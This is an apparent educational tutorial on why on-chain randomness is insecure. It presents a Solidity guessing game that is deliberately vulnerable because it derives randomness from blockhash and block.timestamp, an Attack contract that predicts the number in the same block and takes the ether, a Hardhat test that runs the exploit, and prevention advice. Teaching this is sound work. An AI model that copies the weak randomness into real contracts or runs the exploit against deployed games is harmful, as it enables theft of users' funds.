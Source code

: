# 🤫 A cautionary tale to never use on-chain randomness

![](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's, that we used in Junior, were created).

<Quiz questionId="22b00580-fe70-4209-bcd7-73fd335ae90a" />

## 🧰 Build

### 👀 Overview

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

### 👷 Setting up Hardhat

Let's start building and see how this would practically work. To start the project, open up your terminal and create a new project directory.

```bash
mkdir randomness
```

Let's start setting up Hardhat inside the `randomness` directory.

```bash
cd randomness
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

Lets first understand what `abi.encodedPacked` does.

We have previously used `abi.encode` in the Sophomore NFT tutorial, and earlier in the Merkle Tree tutorial. It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string. This is used to compute the `tokenURI` of NFT collections often. `encodePacked` takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values. What does this mean? Let's take `uint256` as an example. `uint256` has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on `abi.encodePacked`, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

### Writing the Smart Contracts

Create a file named as `Game.sol` inside your `randomness/contracts` folder and add the following lines of code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Game {
    constructor() payable {}

    // Randomly picks a number out of `0 to 2²⁵⁶–1`.
    function pickACard() private view returns (uint256) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 pickedCard = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        return pickedCard;
    }

    // It begins the game by first choosing a random number by calling `pickACard`
    // It then verifies if the random number selected is equal to `_guess` passed by the player
    // If the player guessed the correct number, it sends the player `0.1 ether`
    function guess(uint256 _guess) public {
        uint256 _pickedCard = pickACard();
        if (_guess == _pickedCard) {
            (bool sent, ) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    // Returns the balance of ether in the contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Game.sol";

contract Attack {
    Game game;

    // Creates an instance of Game contract with the help of `gameAddress`
    constructor(address gameAddress) {
        game = Game(gameAddress);
    }

    // Attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
    // is accessible publically
    function attack() public {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 _guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        game.guess(_guess);
    }

    // Gets called when the contract recieves ether
    receive() external payable {}
}
```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

<Quiz questionId="4398fb9d-e52b-431e-9688-140e9b325e0f" />

### Writing the Test

Create a new file named `attack.js` inside the `test` folder and add the following lines of code

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const game = await Game.deploy({ value: utils.parseEther("0.1") });
    await game.deployed();

    console.log("Game contract address", game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attack = await Attack.deploy(game.address);

    console.log("Attack contract address", attack.address);

    // Attack the Game contract
    const tx = await attack.attack();
    await tx.wait();

    const balanceGame = await game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});
```

### Testing

Now open up a terminal pointing to `randomness` folder and execute this

```bash
npx hardhat test
```

If all your tests passed, you have sucessfully completed the hack and were able to predict the randomness with 100% accurancy, so it wasn't really that random.

<Quiz questionId="94e27fa6-a537-42c9-8bd1-6afbd30d51c0" />
<Quiz questionId="73b3c3b1-8f21-4eb6-8f40-063a509f87b9" />

## 👮 Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness

<Quiz questionId="6fdad269-f07b-4284-94b0-40cb822f98db" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
